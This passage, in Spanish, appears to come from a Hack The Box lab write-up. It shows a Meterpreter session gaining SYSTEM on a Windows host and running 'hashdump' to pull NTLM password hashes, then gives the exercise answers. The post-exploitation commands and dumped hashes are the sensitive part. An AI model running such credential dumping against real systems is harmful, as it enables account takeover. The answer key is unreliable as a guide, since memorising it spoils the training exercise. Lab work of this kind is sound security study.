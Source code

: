 Esto nos devuelve una sesión de meterpreter.
Ejecuto un
```
(Meterpreter 1)(C:\Windows\system32) > shell
Process 8992 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```

Y me devuelve que el nombre del usuario en el que aterrizo con dicha shell es: 
Respuesta: *nt authority\system*

**2. Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.**

Ejecutando desde dicha sesión de meterpreter un

```
(Meterpreter 1)(C:\Windows\system32) > hashdump
```

Obtengo estas cadenas de texto:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
```

Siendo la respuesta del ejercicio el Hash: *cf3a5525ee9414229e66279623ed5c58*


